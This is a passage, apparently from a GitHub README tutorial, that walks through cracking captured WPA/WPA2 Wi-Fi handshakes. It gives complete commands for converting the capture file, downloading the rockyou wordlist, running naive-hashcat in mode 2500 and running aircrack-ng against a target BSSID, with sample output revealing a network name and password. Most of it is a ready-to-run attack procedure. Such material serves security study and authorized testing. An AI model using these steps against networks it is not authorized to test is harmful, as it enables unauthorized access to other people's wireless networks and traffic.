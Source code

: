 Note that both attack methods below assume a relatively weak user generated password. Most WPA/WPA2 routers come with strong 12 character random passwords that many users (rightly) leave unchanged. If you are attempting to crack one of these passwords, I recommend using the Probable-Wordlists WPA-length dictionary files.

Cracking With naive-hashcat (recommended)
Before we can crack the password using naive-hashcat, we need to convert our .cap file to the equivalent hashcat file format .hccapx. You can do this easily by either uploading the .cap file to https://hashcat.net/cap2hccapx/ or using the cap2hccapx tool directly.

cap2hccapx.bin hackme.cap hackme.hccapx
# Next, download and run naive-hashcat:

# download
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# download the 134MB rockyou dictionary file
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack ! baby ! crack !
# 2500 is the hashcat hash mode for WPA/WPA2
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
Naive-hashcat uses various dictionary, rule, combination, and mask (smart brute-force) attacks and it can take days or even months to run against mid-strength passwords. The cracked password will be saved to hackme.pot, so check this file periodically. Once you've cracked the password, you should see something like this as the contents of your POT_FILE:

e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet
Where the last two fields separated by : are the network name and password respectively.

If you would like to use hashcat without naive-hashcat see this page for info.

## Cracking With Aircrack-ng
Aircrack-ng can be used for very basic dictionary attacks running on your CPU. Before you run the attack you need a wordlist. I recommend using the infamous rockyou dictionary file:

# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
Note, that if the network password is not in the wordfile you will not crack the password.

# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
If the password is cracked you will see a KEY FOUND! message in the terminal followed by the plain text version of the network password.
